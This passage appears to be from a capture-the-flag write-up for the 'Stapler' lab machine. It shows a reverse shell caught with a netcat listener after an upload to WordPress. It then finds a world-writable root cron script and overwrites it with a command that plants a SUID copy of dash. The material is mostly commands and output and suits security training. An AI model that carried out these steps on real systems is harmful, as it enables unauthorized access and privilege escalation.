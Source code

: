 Once it's uploaded direct to https://192.168.208.148:12380/blogblog/wp-content/uploads/ and trigger the reverse shell.

```sh
naveenj@hackerspace:|01:34|~/proving_grounds/Stapler$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.193] from (UNKNOWN) [192.168.208.148] 51462
Linux red.initech 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 athlon i686 GNU/Linux
 06:34:44 up 32 min,  0 users,  load average: 0.00, 0.01, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1408): Inappropriate ioctl for device
bash: no job control in this shell
www-data@red:/$ 
```

**Initial Foothold Obtained**

## Privilege Escalation

### Cronjobs

Check all cronjobs in the machine.

```sh
www-data@red:/$ ls -lsaht /etc/cron.*
ls -lsaht /etc/cron.*
/etc/cron.d:
total 32K
 12K drwxr-xr-x 100 root root  12K Jun  9  2021 ..
4.0K drwxr-xr-x   2 root root 4.0K Jun  3  2016 .
4.0K -rw-r--r--   1 root root   56 Jun  3  2016 logrotate
4.0K -rw-r--r--   1 root root  102 Jun  3  2016 .placeholder
4.0K -rw-r--r--   1 root root  670 Mar  1  2016 php
4.0K -rw-r--r--   1 root root  589 Jul 16  2014 mdadm
```

Contents of `logrotate` file.

```sh
www-data@red:/etc/cron.d$ cat logrotate
cat logrotate
*/5 *   * * *   root  /usr/local/sbin/cron-logrotate.sh
www-data@red:/etc/cron.d$ ls -al /usr/local/sbin/cron-logrotate.sh
ls -al /usr/local/sbin/cron-logrotate.sh
-rwxrwxrwx 1 root root 51 Jun  3  2016 /usr/local/sbin/cron-logrotate.sh
www-data@red:/etc/cron.d$ 
```

And the file permission says we can write to it. Write the below exploit to the `cron-logrotate.sh`.

```sh
www-data@red:/usr/local/sbin$ echo "cp /bin/dash /tmp/dash; chmod u+s /tmp/dash;" > /usr/local/sbin/cron-logrotate.sh
</dash; chmod u+s /tmp/dash;" > /usr/local/sbin/cron-logrotate.sh 
```
